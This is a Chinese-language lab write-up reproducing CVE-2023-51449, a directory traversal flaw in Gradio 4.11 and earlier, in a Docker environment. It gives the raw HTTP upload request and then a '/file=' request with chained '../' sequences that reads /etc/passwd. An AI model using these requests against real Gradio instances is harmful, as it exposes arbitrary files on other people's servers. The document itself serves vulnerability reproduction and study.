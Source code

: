 # Gradio `file` 目录遍历漏洞（CVE-2023-51449）

Gradio是一个用于创建机器学习模型交互式界面的Python库，通过Gradio，可以快速地为模型构建一个可视化的、易于使用的Web界面，无需编写任何前端代码。

Gradio 4.11及以下版本，在未启用身份验证时如果知道要查找的文件路径，就可以使用公共URL访问运行Gradio应用程序的机器上的任意文件（例如，如果演示是使用`share=True`创建的，或者在Hugging Face Spaces上创建的）。

参考链接：

- <https://github.com/gradio-app/gradio/pull/6833>
- <https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2>

## 环境启动

执行如下命令启动一个由Gradio 4.10.0编写的应用：

```
docker compose up -d
```

启动成功后访问，默认没有身份验证。

```
http://your-ip:7860
```

## 漏洞复现

使用upload接口随便上传一段内容，需要获取到一个可访问的文件路径。

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--

```

![](1.png)

得到一个可访问的文件路径后使用file接口访问并使用目录遍历读取文件，即可成功读取。

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip

```

![](2.png)
